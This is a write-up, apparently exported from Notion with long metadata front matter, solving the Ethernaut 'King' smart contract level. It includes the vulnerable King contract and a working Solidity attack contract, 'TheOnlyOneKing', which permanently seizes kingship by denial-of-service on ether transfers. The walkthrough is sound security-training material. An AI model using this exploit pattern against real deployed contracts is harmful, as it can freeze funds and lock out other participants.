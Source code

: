 ```yaml
---
title: "King"
date: "2024-02-02"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Vault-d8ba3eafb273440f9a492b042e65f214"
weight: 10
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/9"
next: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "8338a297-a2b4-47b3-b401-66c68586199d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Vault-d8ba3eafb273440f9a492b042e65f214"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Vault-d8ba3eafb273440f9a492b042e65f214"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-02"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 10
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "King"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "King"
          href: null
  url: "https://www.notion.so/King-8338a297a2b447b3b40166c68586199d"
  public_url: null
UPDATE_TIME: "2024-02-23T22:50:22.327Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD


Such a fun game. Your goal is to break it.


When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```


> 💡 Most of Ethernaut's levels try to expose (in an oversimplified form of   
> course) something that actually happened — a real hack or a real bug.  
> In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface King {
  function prize() external returns(uint);
  function owner() external returns(address);
  receive() external payable;
  function _king() external view returns (address);
}

contract TheOnlyOneKing {
  King fakeKing;

  constructor(address payable _fakeKing) {
    fakeKing = King(_fakeKing);
  }

  function becomeTheOnlyOneKing() public payable {
    uint prize = fakeKing.prize();
    (bool success,) = address(fakeKing).call{value: prize}("");
    require(success, 'failed become the only one king');
  }

  receive() external payable {
    if (fakeKing._king() != address(this)) {
      payable(fakeKing).transfer(msg.value);
    }
  }
}
```


This solution is overkill since we can just forbid the to send ether to a contract just by not implementing any fallback function. But this solution is more fun since it’s like TheOnlyOneKing is always fighting back for his crown ! 👑

